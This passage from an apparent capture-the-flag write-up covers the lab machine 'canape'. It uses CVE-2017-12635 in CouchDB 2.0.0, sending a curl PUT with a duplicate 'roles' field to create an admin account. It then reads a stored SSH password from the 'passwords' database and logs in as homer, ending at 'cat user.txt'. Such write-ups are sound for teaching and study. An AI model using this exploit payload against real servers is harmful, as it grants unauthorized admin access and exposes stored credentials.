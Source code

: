 We'll need elevated privileges to access the `passwords` database. Luckily `couchdb` version `2.0.0` is vulnerable to [CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635){:target="_blank"}{:rel="noopener noreferrer"} where anyone can **create an admin user**
```bash
www-data@canape:/tmp$ curl -X PUT localhost:5984/_users/org.couchdb.user:dasian -H "Content-Type:application/json" -d '{"type":"user","name":"dasian","roles":["_admin"],"roles":[],"password":"dasian"}' 
{"ok":true,"id":"org.couchdb.user:dasian","rev":"1-87fc8176cbc2945d29ef54729729461e"}
```

Now can access the `passwords` database with the admin credentials `dasian:dasian`
```bash
www-data@canape:/tmp$ curl dasian:dasian@localhost:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}

www-data@canape:/tmp$ curl dasian:dasian@localhost:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}

www-data@canape:/tmp$ curl dasian:dasian@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"<PASSWORD_REDACTED>","user":""}
```

Using this `ssh` password for the `homer` user we can login and grab the `user.txt` flag! Remember from our scan that `ssh` is on port `65535`
```bash
┌──(kali@kali)-[~/canape.htb]
└─$ ssh homer@canape.htb -p 65535
The authenticity of host '[canape.htb]:65535 ([10.10.10.70]:65535)' can't be established.
ED25519 key fingerprint is SHA256:fnOGcxmSP9f1PLBisr/nYMZP1ilGixOYS2kCQnYynxc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[canape.htb]:65535' (ED25519) to the list of known hosts.
homer@canape.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Nov 23 07:33:11 2023 from 10.10.14.23
homer@canape:~$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
homer@canape:~$ cat user.txt 
```
